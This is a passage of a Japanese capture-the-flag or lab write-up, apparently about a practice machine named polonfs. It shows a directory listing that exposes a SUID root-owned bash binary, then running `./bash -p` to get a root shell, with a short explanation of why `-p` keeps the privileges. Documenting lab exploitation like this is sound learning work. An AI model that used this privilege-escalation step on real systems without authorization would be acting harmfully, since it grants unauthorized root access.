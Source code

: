 ```bash
  System information as of Mon Jun 10 23:10:18 UTC 2024

  System load:  0.0               Processes:           102
  Usage of /:   45.2% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.144.88
  Swap usage:   0%


44 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jun 10 23:07:18 2024 from 10.9.0.5
```
  
念のため`ls -al`でディレクトリ内とその権限等を見てみる
```bash
cappucino@polonfs:~$ ls -al
total 1284
drwxr-xr-x 5 cappucino cappucino    4096 Jun 10 23:07 .
drwxr-xr-x 3 root      root         4096 Apr 21  2020 ..
-rwsr-sr-x 1 root      cappucino 1277936 Jun 10 23:07 bash
-rw------- 1 cappucino cappucino      58 Jun 10 23:08 .bash_history
-rw-r--r-- 1 cappucino cappucino     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cappucino cappucino    3771 Apr  4  2018 .bashrc
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .cache
drwx------ 3 cappucino cappucino    4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 cappucino cappucino     807 Apr  4  2018 .profile
drwx------ 2 cappucino cappucino    4096 Apr 22  2020 .ssh
-rw-r--r-- 1 cappucino cappucino       0 Apr 22  2020 .sudo_as_admin_successful
```
bashに`SUIDが設定`されており、所有者が`root`になっていることが確認できる。  
ここまできたら後は実行するだけ。  
```bash
cappucino@polonfs:~$ ./bash -p

bash-4.4# whoami
root
```
`./bash`の`-pオプション`は、実行者の権限を保持するというオプションになる。普通にSUIDが付いていれば所有者である`root`で実行されるものだが、bashに限っては`権限をドロップ`することがあるらしいので、明示的にオプションを付けて実行    
`whoami`を実行するとrootになっていることが確認できる。  
    

  
  


